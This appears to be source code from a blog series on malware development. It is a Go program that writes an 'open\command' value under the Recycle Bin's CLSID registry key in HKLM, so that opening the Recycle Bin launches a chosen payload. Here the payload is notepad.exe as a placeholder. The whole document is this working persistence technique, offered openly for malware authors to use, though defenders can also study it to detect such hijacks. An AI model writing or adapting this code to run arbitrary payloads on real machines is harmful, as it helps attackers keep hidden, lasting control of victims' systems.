```go
package main

/*

Author: Waseem Akram
Blog post: https://hackerwasii.com/blogposts/malware-development-3-persistence-via-recycle-bin-golang

*/

import (
  "fmt"
  "log"

  "golang.org/x/sys/windows/registry"
)

func main(){

  // Open registry key
  fmt.Println("Opening registry key...")
  bin_key, err := registry.OpenKey(
    registry.LOCAL_MACHINE,
    "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell",
    registry.WRITE,
  )

  if err != nil { // Handle error
    fmt.Println("OpenKey error!")
    log.Fatal(err)
  }
  // Close key
  defer bin_key.Close()

  // Create new key
  fmt.Println("Creating new key...")
  k, _, err := registry.CreateKey(
    bin_key,
    "open\\command",
    registry.ALL_ACCESS,
  )

  if err != nil { // Handle error
    fmt.Println("CreateKey error!")
    log.Fatal(err)
  }

  // Set value
  fmt.Println("Setting notepad.exe as our payload...")
  err = k.SetStringValue("", "notepad.exe")
  if err != nil { // Handle error
    fmt.Println("SetStringValue error!")
    log.Fatal(err)
  }

  fmt.Println("Process completed!")
}
```
